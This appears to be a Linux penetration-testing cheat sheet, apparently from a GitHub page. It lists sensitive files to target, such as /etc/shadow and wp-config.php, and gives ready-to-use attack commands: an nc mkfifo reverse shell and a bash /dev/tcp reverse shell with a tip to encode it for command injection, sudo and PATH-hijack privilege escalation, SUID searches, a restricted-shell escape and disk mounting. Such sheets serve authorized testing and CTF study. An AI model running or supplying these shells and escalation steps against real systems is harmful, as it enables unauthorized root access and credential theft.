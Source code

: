 # Linux

## Important files (Default Location)

```
/etc/passwd
/etc/group
/etc/shadow
/var/www/html/
/var/www/
/tmp/
/home/
/var/log/nginx/access.log
/var/log/apache/access.log
/var/log/auth.log
/etc/apache2/sites-available/000-default.conf
/etc/samba/smb.conf
/var/www/html/wordpress/wp-config.php
/etc/fstab
/var/log/cron.log
/etc/tomcat9/tomcat-users.xml
```

### PrivEsc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP_ADDR] [PORT] >/tmp/f
sudo -l   # /etc/sudoers
-----------------
(root) SETENV: NOPASSWD: /opt/cleanup.sh
# have the ability to set environment, therefore create a bash binary in the pwd and:
sudo PATH=$PWD:$PATH /opt/cleanup.sh
-----------------
find / -perm -4000 2>/dev/null    # file with suid
find / -type f -writable 2>/dev/null
sudo -u#-1 /bin/bash
```

### Reverse Shell

```
echo "bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1" |bash    # base64 encode the echo cmd; use for os command injection (api)
```

### Not So Important But May Be Useful (Default Location)

```
/proc/cpuinfo
```

### PATH & Restricted Shell

```
export PATH=/tmp:$PATH
ssh alfred@10.11.1.101 -t "bash --noprofile"
```

### Docker

```shell
docker images
docker build -t [image-name] [Dockerfile location]    # building a docker image from the image file
docker run [image-name]   # running the docker image
---------------Mount SDA1----------------
fdisk -l
mkdir -p /mnt/tmpp
mount /dev/sda1 /mnt/tmpp
```

### Network & Firewall rules

```
iptables -L
cat /etc/sysconfig/iptables
cat /etc/resolv.conf
```
